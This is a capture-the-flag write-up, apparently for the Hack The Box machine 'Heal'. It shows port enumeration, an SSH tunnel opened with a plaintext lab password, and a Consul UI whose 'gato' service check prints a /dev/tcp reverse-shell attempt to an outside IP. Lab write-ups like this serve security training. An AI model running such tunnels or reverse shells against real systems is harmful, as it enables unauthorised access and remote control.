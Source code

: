 # 🔍 Checking Active Ports (from linPEAS & HackTricks)

```text
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3001          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               994/nginx: worker p
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

> Notice **port 8500** listening only on localhost — looks interesting.

---

# 🔌 SSH Tunnel to Forward Port 8500

```bash
┌──(futaba㉿FutabaLab)-[~/…/htb/Heal/rev/Limesurvey-6.6.4-RCE]
└─$ sshpass -p 'AdmiDi0_pA$$w0rd' ssh ron@heal.htb -L 8500:127.0.0.1:8500
```

> We forward the local port `8500` to the target’s localhost:8500.

---

# 🌐 Accessing the Service Locally

Navigate to:

```
http://localhost:8500/ui/server1/services
```

You find a **Consul UI** with several services registered:

* gato
* consul
* Heal React APP
* PostgreSQL
* Ruby API service

---

# 🕵️‍♂️ Investigating the `gato` Service

Consul shows:

* Service check failing with connection timeout:

  ```
  /bin/bash: connect: Connection timed out
  /bin/bash: line 1: /dev/tcp/10.10.14.72/9001: Connection timed out
  ```

---